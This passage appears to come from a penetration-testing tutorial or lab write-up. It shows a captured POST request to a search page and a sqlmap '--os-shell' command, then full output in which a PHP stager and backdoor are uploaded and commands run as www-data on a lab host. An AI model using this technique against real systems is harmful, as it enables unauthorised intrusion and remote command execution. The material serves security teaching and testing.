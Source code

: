 ```HTTP
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```
If we save this request to a file named `post.txt`, then our `sqlmap` command to get a shell would be:
```bash
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
...
[*] starting @ 02:20:47 PM /2022-05-19/

[14:20:47] [INFO] parsing HTTP request from 'post'
[14:20:47] [INFO] resuming back-end DBMS 'mysql'
[14:20:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: item (POST)
...
---
[14:20:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[14:20:48] [INFO] going to use a web backdoor for command prompt
[14:20:48] [INFO] fingerprinting the back-end DBMS operating system
[14:20:48] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[14:20:49] [INFO] using '/var/www/html/tmp' as web server document root
[14:20:49] [INFO] retrieved web server absolute paths: '/var/www/html/search.php'
[14:20:49] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via LIMIT 'LINES TERMINATED BY' method
[14:20:50] [WARNING] unable to upload the file stager on '/var/www/html/tmp/'
[14:20:50] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via UNION method
[14:20:50] [WARNING] expect junk characters inside the file as a leftover from UNION query
[14:20:50] [INFO] the remote file '/var/www/html/tmp/tmpuqgek.php' is larger (713 B) than the local file '/tmp/sqlmapxkydllxb82218/tmp3d64iosz' (709B)
[14:20:51] [INFO] the file stager has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpuqgek.php
[14:20:51] [INFO] the backdoor has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpbetmz.php
[14:20:51] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: '/var/www/html/tmp'
```
- `-r` tells sqlmap which file to use for the POST request
- `-p` is our vulnerable parameter (`item`)